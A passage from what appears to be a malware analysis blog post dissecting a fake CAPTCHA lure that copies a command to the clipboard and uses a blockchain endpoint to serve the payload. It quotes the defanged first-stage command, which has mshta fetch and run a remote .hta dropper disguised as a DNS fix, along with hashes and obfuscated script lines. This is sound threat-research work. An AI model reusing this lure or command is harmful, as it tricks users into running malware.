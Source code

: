 We can also see a call out to `recaptcha-verify-9n[.]pages[.]dev`, likely responsible for hosting/displaying the CAPTCHA. The end result of the malicious JavaScript is that a command is copied to the user's clipboard automatically. Inspecting the requests to `hxxps://bsc-dataseed[.]binance.org`, we can decode some of the values to see what is being passed, one of these includes the recaptcha-verify domain, showing interactivity between the two. 

![Requests to smart contract](/static/vidar/post_request.png)

Below is a full example of the smart contract passing the command to be copied to the user's clipboard via .js. _Note: the payload on this website changed during the writing of this blog post, this one screenshot is a modified payload, slightly different to the one we are dissecting_:

![DevTools](/static/vidar/devtools.png)

## First Stage Execution - mshta.exe

The string is just long enough that when the user pastes the content in the Run box, the first part of the command is hidden from view to the user. 

![Contents of the Run window](/static/vidar/run.png)

Pressing `ENTER` on the Run box with `mshta.exe hXXp://83[.]217[.]208[.]130/xfiles/Ohio.mp4 # Microsoft Windows: Fix Internet DNS Service reconnect` will launch `mshta.exe` and execute the contents of `Ohio.mp4`.

- File Name: Ohio.mp4
- Description: .hta dropper
- SHA256: d1e6c627f96ebe45ef06713fbc2b8eabc48115b99a82205c04914aff5d7cb3de 
- VirusTotal: [https://www.virustotal.com/gui/file/d1e6c627f96ebe45ef06713fbc2b8eabc48115b99a82205c04914aff5d7cb3de](https://www.virustotal.com/gui/file/d1e6c627f96ebe45ef06713fbc2b8eabc48115b99a82205c04914aff5d7cb3de) 
- Triage: [https://tria.ge/250207-jz1m7svkez](https://tria.ge/250207-jz1m7svkez)

Looking at the content of `Ohio.mp4`, we see that the first line is an extremely long string of what appears to be hex bytes; the other lines are mostly null garbage or unreadable.

![Original malicious file](/static/vidar/ohio_original.png)

Using `strings -a Ohio.mp4 > strings.txt` we can save a file with readable ASCII strings, this will trim the garbage. 

![Strings](/static/vidar/strings2.png)

The resulting file is obfuscated, however we can use our eyes to manually look through and see what will be useful to us here. We can infer that this is a .hta file (as it is being executed by mshta),  that the hex content is important to execution and that this file is likely trying to decode the hex content in some way, so we can look for things related to the decoding process. If we place the long line of hex content into a separate file named `hex_content.txt` and remove all the other irrelevant junk, we are left with the following lines of interest:

```javascript
<script>var rcxWn = document.documentElement.outerHTML;</script>)
<script>var dKNBL = rcxWn.substring(27 , 28032);</script>
<script>                                                                                                 </script>
```
